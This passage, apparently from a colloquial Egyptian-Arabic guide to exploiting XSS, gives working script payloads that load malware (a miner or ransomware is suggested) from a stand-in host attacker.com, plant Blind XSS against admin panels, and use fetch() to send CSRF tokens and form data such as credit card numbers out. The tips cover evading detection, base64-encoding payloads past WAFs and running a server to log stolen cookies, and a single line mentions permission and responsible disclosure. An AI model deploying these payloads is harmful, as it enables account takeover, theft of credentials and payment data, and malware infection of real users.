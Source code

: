 5. **توزيع مالوير (Malware Delivery)**:
   - **الهدف**: تحميل سكربتات خبيثة على جهاز اليوزر.
   - **البايلود**:
     ```html
     <script src="attacker.com/malware.js"></script>
     ```
   - **الإعداد**: اعمل ملف JavaScript خبيث (زي سكربت لتعدين العملات أو ransomware).
   - **التأثير**: إصابة جهاز اليوزر أو شبكته.

6. **Blind XSS للهجمات المستمرة**:
   - **الهدف**: حقن بايلودس في أماكن زي لوحة التحكم بتاعة الأدمن.
   - **البايلود**:
     ```html
     <script src="attacker.com/log.js"></script>
     ```
   - **الإعداد**: استخدم `--blind` مع XSStrike، واعمل `log.js` عشان يسجل بيانات لما الأدمن يشوف اللوج.
   - **التأثير**: هجوم على مستخدمين مهمين زي الأدمن.

7. **سرقة توكن CSRF**:
   - **الهدف**: سرقة توكن CSRF عشان تعمل أوامر زي تغيير الباسورد.
   - **البايلود**:
     ```html
     <script>
     fetch('attacker.com/steal.php?token=' + document.querySelector('input[name="csrf_token"]').value);
     </script>
     ```
   - **التأثير**: تنفيذ أوامر زي تحويل فلوس أو تغيير إعدادات.

8. **سرقة بيانات من الـDOM**:
   - **الهدف**: سحب بيانات من الفورمات (زي بيانات الكريدت كارد).
   - **البايلود**:
     ```html
     <script>
     let data = document.forms[0].elements[0].value;
     fetch('attacker.com/steal.php?data=' + data);
     </script>
     ```
   - **التأثير**: سرقة بيانات حساسة من الصفحة.

**نصايح عملية للاستغلال**:
- **اختبار بحذر**: استخدم بايلودس خفيفة زي `<img src=x onerror=alert(1)>` عشان متتكشفش.
- **تشفير البايلودس**: استخدم `-e base64` عشان تتخطى الـWAF.
- **دمج مع أدوات تانية**: زي Burp Suite عشان تعترض الطلبات، أو OWASP ZAP لتحليل أعمق.
- **تسجيل كل حاجة**: اعمل سيرفر يسجل البيانات اللي بتسرقها (زي الكوكيز).
- **أخلاقيات**: لازم يكون عندك إذن قبل ما تفحص، وتبلغ عن الثغرات بشكل مسؤول.

**خلاصة بالعامية**:
لو لقيت ثغرة XSS، تقدر تسوي حاجات كتير: تسرق الكوكيز عشان تدخل مكان اليوزر، تسجل الكيبورد عشان تجيب الباسورد، تعمل فيشينج، أو حتى تحط مالوير. لو عايز تضرب الأدمن، جرب Blind XSS. الأهم إنك تبقى دقيق وتستخدم بايلودس ذكية عشان متتكشفش. XSStrike بتساعدك تحقن البايلودس دي بسهولة، بس لازم تكون حذر.

---
